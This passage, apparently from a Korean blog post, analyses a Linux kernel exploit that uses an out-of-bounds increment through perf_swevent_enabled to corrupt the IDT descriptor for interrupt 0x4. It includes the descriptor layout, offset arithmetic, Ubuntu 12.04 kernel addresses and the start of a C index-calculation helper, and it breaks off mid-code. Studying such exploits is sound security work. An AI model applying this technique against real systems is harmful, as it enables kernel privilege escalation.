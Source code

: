 앞의 `0xffffffff` 에 increment 가 들어가서 `0x00000000` 으로 바뀌는게 exploit 의 핵심이다.

#### Incrementing the address of an IDT handler

공개된 exploit 에서는 interrupt 0x4 를 hijack 했다. 

{% img /images/interrupts.png %}

16-byte descriptor 구조를 보면,

{% img /images/id.png %}

```
Offset  Size    Description
0       2       Offset low bits (0..15)
2       2       Selector (Code segment selector)
4       1       Zero
5       1       Type and Attributes (same as before)
6       2       Offset middle bits (16..31)
8       4       Offset high bits (32..63)
12      4       Zero
```

offset 8 의 경우, x86_64 에서 0xffFFffFF 가 될텐데, 이걸 atomic_inc() 시키는게 목표가 된다.

1. 0x4 번 인터럽트에 해당하는 interrupt descriptor 를 corrupt 시켜야하는데.
2. 0,1,2,3 4*16 = 64. hex(64) = 0x40
3. offset 8 에 위치한 4 byte 를 atomic_inc() 시켜야하니까, 0x40 + offset 8 = 0x48
4. idt.addr + 0x48 부터 위치한 4 byte 에 atomic_inc() 가 들어가야한다.
5. 나중에 `uint32_t *fixptr; fixptr = idt.addr + 0x48; *fixptr = -1` 로 원복이 들어가야한다.

Ubuntu 12.04 에서 

1. idt.addr == 0xffffffff81df8000
2. perf_swevent_enabled == 0xffffffff81ef7160

즉 idt.addr + 0x48 은 perf_swevent_enabled 앞에 위치함.

1. target address 는 idt.addr + 0x48 (kernel 에 있음)
2. (perf_swevent_enabled - idt.addr - 0x48) / 4 하면 minus 로 얼마나 index 를 땡겨야하는지 나옴. perf_swevent_enabled(-index) 
3. perf_swevent_enabled + (int64_t)0xffffffff * 4 == 0x380000000 + i*4 (overflow 나서)

1+2+3 을 조합하면 break_perf_event_open() 에 negative 로 얼마를 줘야하는지 나옴.

``` c calc2.c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <linux/perf_event.h>
#include <syscall.h>
#include <stdint.h>
#include <assert.h>
main()
{
    int *idt_addr = (int*)0xffffffff81df8000;
    int *target_addr = idt_addr + 0x48;
    int *perf_swevent_enabled = (int*)0xffffffff81ef7160;
    int *peek;

    uint32_t config = 0xffffffff;
    int32_t idx32;
    uint64_t uidx64;
    int64_t idx64;

    idx64 = config;
    peek = &perf_swevent_enabled[idx64];
```